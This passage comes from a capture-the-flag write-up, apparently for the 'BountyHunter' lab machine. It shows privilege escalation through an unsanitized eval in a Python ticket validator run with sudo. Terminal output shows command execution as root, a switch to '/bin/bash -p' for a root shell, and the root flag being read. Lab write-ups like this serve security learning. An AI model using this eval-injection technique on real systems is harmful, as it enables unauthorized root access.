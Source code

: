 ```bash
development@bountyhunter:~$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py 
Please enter the path to the ticket file.
./eval.md
Destination: Trashtown
root
Invalid ticket.
```

The reason this allows us to run any command we effectively want is an unsanitized use of eval marked by my 4d on the code. When eval is determining what to add (or concatenate) to the first number provided it will evaluate the expression, which imports os and uses the system module to run commands as the user running the process. From here I can change the **whoami** to **/bin/bash -p** and gain a root shell after running the python script once more. 

```bash
development@bountyhunter:~$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py 
Please enter the path to the ticket file.
./eval.md
Destination: Trashtown
root@bountyhunter:/home/development#
```

<h2>Root Flag</h2>

```bash
root@bountyhunter:/home/development# cat /root/root.txt 
9536f2af3aa414f8-------------
```

